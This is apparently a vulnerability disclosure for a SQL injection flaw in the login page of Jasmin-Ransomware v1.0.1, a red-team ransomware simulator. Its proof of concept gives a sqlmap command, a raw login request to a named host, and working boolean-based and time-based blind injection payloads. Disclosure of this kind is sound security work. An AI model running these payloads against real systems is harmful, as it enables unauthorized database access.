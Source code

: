 # SQLi vulnerability in Jasmin-Ransomware v1.0.1 of file /checklogin.php with param username

**vender**:

- Jasmin-Ransomware

**SoftLink**:

- [codesiddhant/Jasmin-Ransomware: Jasmin Ransomware is an advanced red team tool (WannaCry Clone) used for simulating real ransomware attacks. Jasmin helps security researchers to overcome the risk of external attacks.](https://github.com/codesiddhant/Jasmin-Ransomware)

**Vulnerable File**

- /checklogin.php

**Version**

- V1.0.1

### POC

```bash
sqlmap -r sqli.txt -p username --technique BT --batch
```

```http
POST /checklogin.php HTTP/1.1
Host: www.jasmin.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://www.jasmin.top/login.php
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=gqgdlhsu3r6nag12j87cfiq3m6
Priority: u=0
Origin: http://www.jasmin.top
Content-Length: 47

username=siddhant&password=123456&service=login
```



```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=siddhant' AND 3516=3516 AND 'DNqu'='DNqu&password=123456&service=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=siddhant' AND (SELECT 4634 FROM (SELECT(SLEEP(5)))faDx) AND 'VdbY'='VdbY&password=123456&service=login
---
```



![image-20250531041205743](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505310412844.png)
